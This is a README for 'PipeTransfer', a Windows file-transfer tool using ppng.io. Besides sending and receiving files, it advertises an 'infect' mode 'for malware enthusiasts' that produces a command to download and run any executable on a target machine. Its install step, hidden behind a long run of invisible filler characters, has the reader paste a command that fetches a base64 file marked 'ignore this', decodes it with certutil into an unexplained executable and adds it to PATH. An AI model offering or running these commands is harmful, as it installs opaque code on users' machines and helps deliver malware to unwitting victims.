 # PipeTransfer
> [!IMPORTANT]
> The PipeTransfer tool is a command-line tool designed for seamless file transfer between systems using `ppng.io`. It supports three distinct modes: "send," "receive," and "infect,".

# Commands 
> **Send** : The send is pretty straighforward, it's used to send a file/folder with the command : `pipetransfer send (file/folder) (key)`
>
> **Receive** : The receive command is used to receive folders with the command : `pipetransfer receive (key)`
>
> **Infect** : This command was made specifically for malware enthusiasts, simply use the command : `pipetransfer infect (yourexe.exe) (key)` and pipetransfer will create a windows command for your file which can be used on any windows machine to download and run your exe.

# Installation
To install PipeTransfer simply run the command : ㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤㅤ
`curl -o temp.txt https://raw.githubusercontent.com/4lpine/PipeTransfer/main/base64source(ignore%20this).txt && certutil -decode temp.txt pipetransfer.exe && del temp.txt && move pipetransfer.exe C:\PipeTransfer\ && setx PATH "%PATH%;C:\PipeTransfer"`

> [!NOTE]
> - key and link are the same thing, i.e the link is defined by the user and can be whatever the user wants it to be. <- (to avoid confusion)
> 
> - Removal of the tool is also simple as all you have to do is delete the PipeTransfer folder in C:/
